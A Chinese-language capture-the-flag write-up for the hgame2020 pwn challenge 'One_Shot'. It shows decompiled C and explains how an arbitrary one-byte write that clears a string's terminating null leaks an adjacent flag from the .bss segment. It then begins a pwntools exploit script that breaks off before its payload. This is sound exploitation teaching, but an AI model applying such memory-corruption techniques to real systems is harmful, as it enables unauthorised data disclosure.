 

### One_Shot

 - 题目描述：一发入魂
 - 题目地址：[One_Shot](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/hgame2020/pwn/week1_3/One_Shot)
 - 考察点：字符串截断
 - 难度：入门
 - 分值：100
 - 完成人数：119

反汇编分析程序：

```c
int __cdecl main(int argc, const char **argv, const char **envp){
  _BYTE *v4; // [rsp+8h] [rbp-18h]
  int fd[2]; // [rsp+10h] [rbp-10h]
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  v4 = 0LL;
  *(_QWORD *)fd = open("./flag", 0, envp);
  setbuf(stdout, 0LL);
  read(fd[0], &flag, 0x1EuLL);
  puts("Firstly....What's your name?");
  __isoc99_scanf("%32s", &name);
  puts("The thing that could change the world might be a Byte!");
  puts("Take tne only one shot!");
  __isoc99_scanf("%d", &v4);
  *v4 = 1;
  puts("A success?");
  printf("Goodbye,%s", &name);
  return 0;
}
```

首先这题打开`/flag`文件并且把内容读到`flag`变量中，然后读一个32字节的字符串到`name`变量中，还给了一个**任意内存置1**的漏洞，最后打印`name`。

我们知道，在C语言中，字符串以末尾1字节的`\x00`作为结束的标志。如果打印字符串的函数没有遇到`\x00`字节，则会一直打印字符。

`name`和`flag`都定义在`bss`段，而且`flag`紧紧按着`name`：

```assembly
.bss:00000000006010C0 name            db    ? 
.bss:00000000006010E0 flag            db    ? 
```

因此利用**任意内存置1**漏洞，把`name`末尾的`\x00`置1，在程序打印`name`时，就会顺便把`flag`打印出来。

#### exp

```python
#!/usr/bin/python
#__author__:TaQini

from pwn import *

local_file  = './One_Shot'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = local_libc # '../libc.so.6'

if len(sys.argv) == 1:
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
```